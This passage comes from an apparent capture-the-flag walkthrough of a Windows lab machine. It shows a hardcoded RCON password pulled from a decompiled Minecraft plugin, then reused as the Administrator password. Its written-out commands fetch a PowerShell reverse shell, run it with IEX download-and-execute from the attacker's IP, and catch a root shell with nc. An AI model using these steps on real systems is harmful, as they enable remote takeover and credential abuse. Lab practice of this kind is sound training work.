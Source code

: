 ## Observe Playcounter with JD-GUI
```
public final class Playercounter extends JavaPlugin {  
  public void onEnable() {  
    Rcon rcon = null;  
    try {  
      rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());  
    } catch (IOException e) {  
      throw new RuntimeException(e);  
    } catch (AuthenticationException e2) {  
      throw new RuntimeException(e2);  
    }   
    String result = null;  
    try {  
      result = rcon.command("players online count");  
      PrintWriter writer = new PrintWriter("C:\\inetpub\\wwwroot\\playercount.txt", "UTF-8");  
      writer.println(result);  
    } catch (IOException e3) {  
      throw new RuntimeException(e3);  
    }   
  }  
    
  public void onDisable() {}  
}
```

Seems like the parameter `rcon` contains a credential

## Use the Creds
Download the Ps reverseshell
`$ wget https://raw.githubusercontent.com/rioasmara/wordpress/master/rev.ps1`
```
Edit the ip address and port in rev.ps1 then listen
```
`$ python3 -m http.server 8000`
`$ rlwrap nc -lvnp 9001`

```
c:\users\svc_minecraft\server>powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.
```
```
$SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12:8000/rev.ps1')" -Credential $cred
```
### Got Root
```
listening on [any] 9001 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.249] 49684
Windows PowerShell running as user Administrator on CRAFTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\users\svc_minecraft\server>type C:\Users\Administrator\Desktop\root.txt
b2f30392908dc4148a4735903256e8be
PS C:\users\svc_minecraft\server> 
```